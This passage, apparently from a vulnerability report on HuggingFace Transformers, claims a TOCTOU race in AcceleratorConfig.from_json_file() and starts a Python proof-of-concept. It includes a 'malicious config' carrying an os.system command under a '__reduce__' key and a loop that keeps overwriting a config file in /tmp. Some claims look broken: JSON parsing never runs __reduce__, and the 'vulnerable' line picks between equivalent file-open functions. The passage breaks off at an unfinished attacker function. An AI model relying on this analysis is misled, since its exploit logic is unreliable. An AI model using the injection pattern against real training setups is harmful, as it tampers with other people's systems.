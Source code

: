 **Impact**:
- FileNotFoundError exception
- Training crashes
- Denial of Service

### **Scenario 3: Malicious Config Injection**

**Attack Vector**: Replace config file with malicious version

```python
# Malicious config with code execution payload
malicious_config = {
    "__reduce__": "os.system('malicious_command')",  # Deserialization attack
    "learning_rate": 0.001,
    "batch_size": 32
}

# Race condition script
def inject_malicious():
    while True:
        with open('/tmp/config.json', 'w') as f:
            json.dump(malicious_config, f)
```

**Impact**:
- Arbitrary code execution (if JSON deserializer has vulnerabilities)
- Configuration poisoning
- Model training manipulation

---

## 🔬 PROOF OF CONCEPT

### **PoC 1: Race Condition Demonstrator**

```python
#!/usr/bin/env python3
"""
Proof-of-Concept: TOCTOU Race Condition in HuggingFace Transformers
Demonstrates the race window in AcceleratorConfig.from_json_file()
"""

import os
import json
import time
import threading
from pathlib import Path

# Simulated vulnerable code from transformers
def vulnerable_from_json_file(json_file):
    """Simplified version of AcceleratorConfig.from_json_file()"""
    import io

    # VULNERABLE CODE - TOCTOU Race Condition
    open_file = io.open if os.path.exists(json_file) else open

    # Race window here!
    time.sleep(0.01)  # Exaggerated for demonstration

    with open_file(json_file, "r", encoding="utf-8") as f:
        return json.load(f)

# Attack simulation
def attacker_thread(target_file):
    """Attacker replaces file during race window"""
```
